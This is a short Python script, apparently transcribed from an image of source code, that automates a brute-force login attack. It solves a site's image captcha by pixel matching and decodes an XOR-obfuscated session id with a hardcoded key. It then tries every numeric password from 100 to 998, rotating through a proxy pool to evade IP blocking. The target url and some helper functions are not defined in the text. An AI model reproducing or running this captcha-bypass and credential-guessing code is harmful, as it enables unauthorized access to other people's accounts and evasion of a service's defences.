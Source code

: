 ```python

def load_img(img):
    s = ""
    for i in range(4):
        offset = i * 15 + 5
        data = img.crop((offset, 3, offset + 12, 20))
        data = data.convert("L")
        w, h = data.size
        pixdata = data.load()
        img_data = []
        for x in range(w):
            for y in range(h):
                img_data.append(0 if pixdata[x, y] < 255 else 255)
        s += find_str(img_data)
    return s


def foo(password, proxy):
    data = requests.get(url=url).json()
    code = ""
    uuid = parse_uuid(data["uuid"])
    image = data["img"]
    if len(image) > 0:
        bytes_io = BytesIO(base64.b64decode(image[len("data:image/png;base64,"):]))
        img = Image.open(bytes_io)
        code = load_img(img)

    data = requests.post(url=url, data={"uuid": uuid, "code": code, "password": password}, proxies=proxy, timeout=10)
    if data.status_code == 404:
        raise Exception("404")
    return data.json()["result"], data.json()["msg"]


def parse_uuid(raw):
    input_raw = list(base64.b64decode(raw))
    key = [49, 50, 51, 67, 55, 69, 53, 69, 56, 55, 53, 70, 66, 70, 48, 69,
           69, 69, 50, 53, 56, 51, 70, 56, 65, 70, 51, 68, 68, 70, 70, 57]
    for i in range(len(input_raw)):
        for j in range(len(key)):
            input_raw[i] ^= key[j]
    return bytes(input_raw).decode()


pool = ProxyPool()
for i in range(100, 999):
    try:
        print(i, foo(i, pool.get_proxy()))
    except:
        pool.del_ip()
```
